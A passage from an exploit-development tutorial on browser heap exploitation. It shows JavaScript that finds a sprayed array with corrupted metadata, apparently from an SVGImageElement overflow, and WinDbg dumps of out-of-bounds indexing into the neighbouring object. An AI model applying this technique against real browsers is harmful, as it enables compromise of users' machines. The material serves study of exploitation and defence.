 We have indeed managed to arrange the heap the way we wanted. The next
step is to search for the ArrayObject whose metadata we have corrupted via
the assumed SVGImageElement overflow bug. The following code snippet
assumes that we have overwritten all the metadata (16 bytes) and have used
0x666 as the new value for initlen, capacity and length.

    var pwned_index = 0;

    for(var i = 0; i < spray_size; i += 2)
    {
        if(container[i].length > 500)
        {
            var pwnstr = "[*] corrupted array found at index: " + i;
            log(pwnstr);

            pwned_index = i;
            break;
        }
    }

Our corrupted ArrayObject now allows us to index the corresponding
JavaScript array beyond its end, and into the neighboring SVGImageElement
object. Since we have sprayed arrays of length 30 (0x1e), we can index into
the first 8 bytes of the SVGImageElement object as a jsval of type double
at index 30 (since at index 29 is the last element of the array).

    0:000> dd 15b11300 l?80

    [ Corrupted metadata of an ArrayObject ]
              flags    initlen  capacity length
    15b11300  00000000 00000666 00000666 00000666

              [    index 0    ] [   index 1     ]
    15b11310  45464645 ffffff81 47484847 ffffff81

              [    index 2    ] [   index 3     ]
    15b11320  45464645 ffffff81 47484847 ffffff81
    ...
    15b113c0  45464645 ffffff81 47484847 ffffff81
    15b113e0  45464645 ffffff81 47484847 ffffff81

              [    index 28   ] [   index 29    ]
    15b113f0  45464645 ffffff81 47484847 ffffff81

              [    index 30   ] [   index 31    ]
    15b11400  69e0cf70 69e0eba0 1a590ea0 00000000

    15b11410  11bfc830 00000000 00020008 00000000

                                [   index 35    ]
    15b11420  00000000 00000000 15b11400 00000000
    15b11430  00000007 00000000 00090000 00000000
    ...
    15b114e0  e4000201 00000000 00000000 e4010301
    15b114f0  06000106 00000001 00000000 e5e50000

    0:000> g
    [*] corrupted array found at index: 31147
